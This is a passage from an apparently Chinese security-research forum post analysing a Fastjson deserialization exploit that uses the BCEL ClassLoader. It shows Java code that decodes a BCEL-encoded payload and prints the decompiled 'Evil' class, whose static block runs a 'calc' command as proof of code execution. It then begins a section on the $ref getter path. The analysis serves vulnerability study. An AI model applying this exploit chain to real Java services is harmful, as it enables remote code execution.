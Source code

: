 ![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-bccd3c02fc9788f25823ad716e824d89dd7b5505.png)

上面我们说了那么多，基本已经走完了流程，但还有个问题，这里的`driverClassName` 后面的值是什么，下面就来解释下上面贴出的`poc`中那一长串是什么

可能还要到`com.sun.org.apache.bcel.internal.util.ClassLoader` 去找答案

这里我们说，我们是通过`loadClass`下重写的方法来执行的，其中有个`defiClass` 显然是通过字节码来实现的。再回过头看`createClass`中的`Utility.decode`

这里我们还原一下内容

```java
public class BCELDecode {
    public static void main(String[] args) throws IOException {
        String encode = "$l$8b$I$A$A$A$A$A$A$A...";
        byte[] decode = Utility.decode(encode,true);
        FileOutputStream fileOutputStream = new FileOutputStream("DecodeClass.class");
        fileOutputStream.write(decode);
    }
}
```

得到`DecodeClass.class`

实际上就是静态方法里面执行弹计算器

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by Fernflower decompiler)
//

package com.p1ay2win.fastjson;

import java.io.IOException;

public class Evil {
    public Evil() {
    }

    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException var1) {
            var1.printStackTrace();
        }

    }
}
```

### 0x03 `JSON.parse`如何调用`get`方法

#### $ref

这里要探究的就是，当只存在`parse`和`get`方法时，还能否利用
